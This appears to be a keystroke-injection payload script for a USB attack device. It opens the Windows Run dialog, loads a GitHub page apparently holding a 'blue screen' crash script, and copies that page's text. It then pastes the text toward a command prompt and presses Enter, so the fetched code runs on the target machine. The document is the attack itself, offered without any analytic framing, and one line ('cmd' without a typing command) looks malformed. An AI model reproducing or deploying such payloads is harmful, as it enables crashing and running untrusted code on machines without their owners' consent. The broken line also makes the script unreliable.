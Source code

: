 REM
DELAY 1000
GUI r
DELAY 500
STRING https://github.com/ZyLuxx7/bluescreenbyzyluxx7/blob/main/FasterBlueScreenByZyLuxx7
ENTER
DELAY 3500
CTRL a
DELAY 500
CTRL c
DELAY 500
GUI r
DELAY 500
cmd
DELAY 500
CTRL v
DELAY 500
ENTER
DELAY 500
ENTER
